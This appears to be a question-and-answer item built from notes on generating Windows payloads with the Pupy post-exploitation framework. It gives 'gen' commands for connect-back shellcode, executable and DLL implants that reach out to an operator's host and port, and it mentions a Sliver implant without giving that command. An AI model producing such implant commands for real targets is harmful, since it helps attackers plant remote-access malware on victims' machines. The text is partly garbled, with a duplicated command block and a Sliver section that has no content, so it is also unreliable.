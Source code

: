 Context:```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload with pupy
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```
### Windows Executable Payload with pupy
Creates a Windows executable payload for **64-bit** architecture that connects back to the given host and port using the specified transport.
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

## Generation a Windows Payload with generate command in sliver
The following command generates a Sliver implant for a Windows target using mTLS for secure communication. The payload is saved as an executable (`.exe`) file on the specified directory, ready to be deployed on a 64-bit Windows system.

 Question: Generate an example of using gen command related to creating  Windows DLLs with Pupy. Each command should follow the format similar to: \n >> gen -f <format> <launcher> -t <transport>. 

 Your response: 
```
>> gen -f dll -O windows -A x64 connect --host ip:port -t transport
```
